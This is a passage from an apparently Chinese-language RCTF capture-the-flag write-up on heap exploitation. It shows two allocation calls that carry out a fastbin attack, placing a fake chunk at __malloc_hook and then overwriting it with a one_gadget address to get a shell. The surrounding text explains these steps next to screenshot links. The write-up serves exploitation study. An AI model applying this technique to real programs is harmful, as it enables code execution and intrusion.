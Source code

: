 <img src="/images/posts/rctf/1527013134886.png" >

```
alloc(0x60,'A' * 0x60)#3
alloc(0x60,'A' * 0x3 + p64(oneshot) + "\n")#5
```

最后就是分配了，先把前面分配的写入那个假的`pre_addr`(`malloc_hook`的地址)的那个堆块分配出去，让`malloc_hook`的地址进入fastbins等待下一次分配

<img src="/images/posts/rctf/1527013502207.png" >

然后再进行第二次分配吧getshell地址写入malloc_hook

<img src="/images/posts/rctf/1526975176396.png" >
